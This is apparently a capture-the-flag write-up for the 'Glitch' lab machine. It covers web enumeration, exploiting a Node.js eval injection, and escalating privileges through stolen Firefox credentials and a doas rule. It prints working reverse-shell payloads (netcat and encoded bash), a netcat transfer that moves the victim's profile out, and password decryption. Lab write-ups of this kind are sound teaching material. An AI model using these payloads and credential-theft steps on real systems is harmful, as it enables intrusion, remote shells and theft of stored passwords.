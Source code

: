 # GLITCH

## Challenge showcasing a web app and simple privilege escalation. Can you find the glitch?
```
Machine's IP: 10.10.192.225
```

**NMAP**

Firstly, once the machine is up we can begin with an active enumeration using nmap
```bash
# Nmap 7.95 scan initiated Fri Oct 17 10:07:00 2025 as: /usr/lib/nmap/nmap --privileged -A -oN nmap.txt -T4 -Pn -p- 10.10.192.225
Nmap scan report for 10.10.192.225
Host is up (0.051s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: not allowed
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone
Running (JUST GUESSING): Linux 4.X|2.6.X|3.X|5.X (97%), Google Android 10.X (91%)
OS CPE: cpe:/o:linux:linux_kernel:4.15 cpe:/o:google:android:10 cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:5
Aggressive OS guesses: Linux 4.15 (97%), Android 9 - 10 (Linux 4.9 - 4.14) (91%), Linux 2.6.32 - 3.13 (91%), Linux 3.10 - 4.11 (91%), Linux 3.2 - 4.14 (91%), Linux 4.15 - 5.19 (91%), Linux 2.6.32 - 3.10 (91%), Linux 5.4 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   50.08 ms 10.9.0.1
2   51.15 ms 10.10.192.225

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct 17 10:18:07 2025 -- 1 IP address (1 host up) scanned in 667.43 seconds
```

We can notice that there's a single service, an nginx server running a website on version 1.14.0 unexploitable if we check using searchsploit.

**GOBUSTER**

As there's a website we will start by doing a directory fuzzing with gobuster with the following
```bash
gobuster dir -u http://10.10.192.225/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t40 -x php
```
We notice that gobuster has found 3 folders but one more interesting than the others : **/secret**

Accessing to /secret tells us that the access is forbidden and if we check our cookies we can notice we have one empty cookie

Now let's have a look at the mainpage source code, we notice that an api is called to **/api/access** but it somewhat fails so we can try calling the api by ourself

Calling the api with a GET requests such as our browser gives us a base64 string (decoding it will give us the first THM flag)

Let's inject this decoded string as our cookie and bingo we can access to /secret and the most important thing: **the mainpage is a different one**!

Inspecting the mainpage can tell us another endpoint of the api is called : **/api/items** or we can also fuzz the api with something like
```bash
gobuster dir -u http://10.10.192.225/api -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t40
```

Using the GET method to the api gives nothing interesting so i'm wondering what happen if we use the POST one with something like
```bash
curl -X POST http://10.10.192.225/api/items
```
By doing that the api answer us with a weird message "bug in the matrix" so maybe the api needs an argument? We can bruteforce args with ffuf for example:
```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://glitch.thm/api/items?FUZZ=test -X POST
```
BINGO we have an arg called **cmd**

Let's try an random POST request at /api/items?cmd=
```bash
curl -X POST http://glitch.thm/api/items?cmd=tututututu
```
With something invalid we have a nodejs error telling us the api IS a nodejs one so we can maybe try a [nodejs eval rce](https://medium.com/@sebnemK/node-js-rce-and-a-simple-reverse-shell-ctf-1b2de51c1a44)
```bash
curl -X POST http://glitch.thm/api/items?cmd=require("child_process").exec('nc MY_IP 9005 -e /bin/sh')
```
```bash
girsh listen -p 9005
```
Here using girsh to get an interactive unbreakable shell we have no answer so we can try another reverse shell like a bash one url encoding it such as
```bash
POST /api/items?cmd=require("child_process").exec('%65%63%68%6f%20%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%43%34%35%4c%6a%51%75%4d%54%63%32%4c%7a%6b%77%4d%44%55%67%4d%44%34%6d%4d%51%6f%3d%20%7c%20%62%61%73%65%36%34%20%2d%64%20%7c%20%62%61%73%68')
```
reverse shell!!!

**PRIVESC**

We can firstly start by listing our sudo rights without any success but we can also list every bins that has the SUID perm set with
```bash
find / -type f -perm -04000 -ls 2>/dev/null
/usr/local/bin/doas
```
We here have the doas command so we can get its configuration file
```bash
cat /usr/local/etc/doas.conf
```
By reading at the file we notice that a rule is set that specify if we are **v0id** we can execute command with doas as **root** so we need to be v0id to be root (we are currently user)

Let's have a look to what's inside our directory because why not?

At first it seems empty but there is an hidden folder called **.firefox**, this file correspond to a firefox profile maybe containing passwords saved

We can try using firefox_decrypt to extract passwords so let's upload the folder to our machine
```bash
# our machine
nc -lnvp 9010 | tar -xf - .
```
```bash
# reverse shell
tar -cf . - | nc MY_IP 9010
```
Let's wait a bit and now we all the files and the folder

Now let's extract the passwords with [firefox_decrypt](https://github.com/unode/firefox_decrypt)
```bash
python firefox_decrypt.py /home/kali/workspace/labs/thm/easy/Glitch/firefox
Select the Mozilla profile you wish to decrypt
1 -> hknqkrn7.default
2 -> b5w4643p.default-release
$ 2

Website:   https://glitch.thm
Username: 'v0id'
Password: '[redacted]'
```        
Now we have the password of v0id we can log as v0id with
```bash
su - v0id
```

Let's lastly get a shell as root using doas
```bash
v0id@ubuntu:~$ doas -u root bash -p
Password: [redacted]
root@ubuntu:/home/v0id# 
```
